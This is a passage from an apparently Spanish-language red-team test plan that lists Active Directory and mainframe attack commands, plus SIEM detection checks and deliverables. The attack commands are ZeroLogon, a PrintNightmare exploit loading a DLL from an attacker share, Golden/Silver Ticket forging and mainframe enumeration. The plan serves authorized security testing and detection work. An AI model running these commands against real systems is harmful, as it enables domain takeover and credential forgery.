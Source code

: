 ```bash

# ZeroLogon
python3 zerologon_tester.py <dc-name> <dc-ip>

# PrintNightmare
python3 CVE-2021-1675.py <domain>/<user>:<pass>@<target> '\\<attacker>\share\evil.dll'
```

##### 🎯 Pack 3 - Técnicas Expertas
```bash
# Semana 7-10: Persistencia y Tickets
echo "=== PACK 3 - SEMANA 7: PERSISTENCIA ==="

# Golden Ticket (requiere KRBTGT hash)
python3 ticketer.py -nthash <krbtgt-hash> -domain-sid <domain-sid> -domain <domain> Administrator

# Silver Ticket
python3 ticketer.py -nthash <service-hash> -spn <service-spn> -domain-sid <domain-sid> -domain <domain> Administrator

# DCShadow (requiere privilegios elevados)
# Implementación con mimikatz en entorno controlado

# Semana 11-12: Mainframes (si aplica)
echo "=== PACK 3 - SEMANA 11: MAINFRAMES ==="

# z/OS Enumeration
nmap -p 23,992 --script=tn3270-screen <mainframe-ip>
python3 z_enum.py <mainframe-ip>

# TSO/ISPF Access
telnet <mainframe-ip> 23
# Manual testing según documentación mainframe
```

#### Fase 3: Validación y Documentación
```bash
# Verificación de detección en SIEM
echo "=== VALIDACIÓN DE DETECCIÓN ==="

# Revisión de logs generados
# Correlación con eventos en SIEM/XDR
# Documentación de técnicas no detectadas
# Generación de evidencias y recomendaciones
```

### 📊 Entregables Escenario A
1. **Evidencias de Ejecución**: Screenshots, logs, videos
2. **Matriz de Detección**: Qué técnicas fueron detectadas
3. **Análisis de Impacto**: Simulación de daños por técnica
4. **Hardening Roadmap**: Priorización de mitigaciones

---